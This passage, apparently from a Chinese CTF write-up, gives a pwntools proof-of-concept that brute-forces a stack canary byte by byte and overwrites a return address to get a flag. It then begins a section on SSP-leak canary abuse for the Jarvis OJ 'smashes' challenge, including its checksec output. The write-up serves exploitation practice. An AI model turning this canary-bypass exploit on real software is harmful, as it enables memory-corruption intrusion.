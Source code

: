 poc脚本：

```
from pwn import *
context.log_level = 'debug'

cn = process('./bin')

cn.recvuntil('welcome\n')
canary = '\x00'
for j in range(3):
    for i in range(0x100):
        cn.send('a'*100 + canary + chr(i))
        a = cn.recvuntil('welcome\n')
        if 'recv' in a:
            canary += chr(i)
            break

cn.sendline('a'*100 + canary + 'a'*12 + p32(0x0804864d))

flag = cn.recv()
cn.close()
log.success('flag is:' + flag)
```

------

## 故意触发canary - ssp leak

这题可以参考jarvis oj中 smashes一题的解题方法中的前一半。

这里我偷个懒，直接把之前写的wp扔过来了，反正原理都在题里了。

题目描述：

> Smashes, try your best to smash!!!
>
> nc pwn.jarvisoj.com 9877
>
> [smashes.44838f6edd4408a53feb2e2bbfe5b229](https://dn.jarvisoj.com/challengefiles/smashes.44838f6edd4408a53feb2e2bbfe5b229)

首先查看保护

```
$ checksec pwn_smashes 
[*] '/home/veritas/pwn/jarvisoj/smashes/pwn_smashes'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```
